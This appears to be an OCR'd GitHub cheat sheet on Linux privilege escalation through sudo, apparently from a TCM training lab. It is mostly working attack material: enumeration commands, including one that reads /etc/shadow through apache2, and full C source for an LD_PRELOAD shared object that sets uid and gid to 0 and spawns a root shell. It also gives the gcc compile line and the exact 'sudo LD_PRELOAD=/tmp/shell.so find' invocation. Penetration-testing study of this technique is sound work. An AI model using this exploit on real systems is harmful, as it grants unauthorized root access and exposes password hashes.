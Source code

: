                                       
                                              
                                              
                                              
                                              
 ## Sudo Enumeration 
 
 
   
                 sudo -l
                 sudo --version
                 sudo apache2 -f /etc/shadow
                 
                 
		 
		 
		 
   ## Sudo resource		 
   
   https://gtfobins.github.io/
   
   
   
   
   
   
   
   ### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

## And Type Command 
   
   sudo -l
   
## And Output 

  Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <and Type NOPASSWD program name >`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`




